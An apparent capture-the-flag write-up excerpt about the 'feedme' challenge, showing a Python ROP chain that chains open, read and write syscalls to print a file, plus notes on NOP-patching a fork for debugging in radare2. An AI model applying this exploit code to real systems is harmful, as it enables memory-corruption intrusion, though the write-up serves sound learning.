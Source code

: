 ```python
p += pack('<I', 0x00000000) # open() arg 3: mode (none)

# syscall 5 (open)
p += pack('<I', 0x08054a10) # xor eax, eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', int0x80)    # int 0x80

temp_buf_ptr = 0x080ea06C

p += pack('<I', 0x0806f371) # pop ecx ; pop ebx ; ret
p += pack('<I', temp_buf_ptr) # read() arg 2: buf ptr
p += pack('<I', 0x00000002) # read() arg 1: fd
p += pack('<I', 0x0806f34a) # pop edx ; ret
p += pack('<I', 0x00000064) # read() arg 3: size

# syscall 3 (read)
p += pack('<I', 0x08054a10) # xor eax, eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret

p += pack('<I', int0x80)    # int 0x80


p += pack('<I', 0x0806f371) # pop ecx ; pop ebx ; ret
p += pack('<I', temp_buf_ptr) # write() arg 2: buf ptr
p += pack('<I', 0x00000001) # write() arg 1: stdout
p += pack('<I', 0x0806f34a) # pop edx ; ret
p += pack('<I', 0x00000064) # read() arg 3: size

# syscall 4 (write)
p += pack('<I', 0x08054a10) # xor eax, eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', 0x080497fe) # inc eax ; ret
p += pack('<I', int0x80)    # int 0x80
```

<side_problem>
Testing the code required a debugger attached to "feedme", and I
really wanted to use r2 instead of gdb. One of the problems with r2 is what
happens when the program forks. Breakpoints stop working, and I'm not sure what
r2 does. I found a bug report for r2 and decided to just patch-out the fork and
its jump with a few NOPs:

Before:
```
│           0x080490b0      55             push ebp
│           0x080490b1      89e5           mov ebp, esp
│           0x080490b3      83ec28         sub esp, 0x28
│           0x080490b6      c745e8000000.  mov dword [ebp - local_18h], 0
│           0x080490bd      c745ec000000.  mov dword [ebp - local_14h], 0
│       ┌─< 0x080490c4      e9a2000000     jmp 0x804916b
│      ┌──> 0x080490c9      e8a23b0200     call 0x806cc70			; fork
│      ││   0x080490ce      8945f0         mov dword [ebp - local_10h], eax	; pid
│      ││   0x080490d1      837df000       cmp dword [ebp - local_10h], 0
│     ┌───< 0x080490d5      751d           jne 0x80490f4
│     │││   0x080490d7      e85affffff     call 0x8049036			; receive_hex_string
```
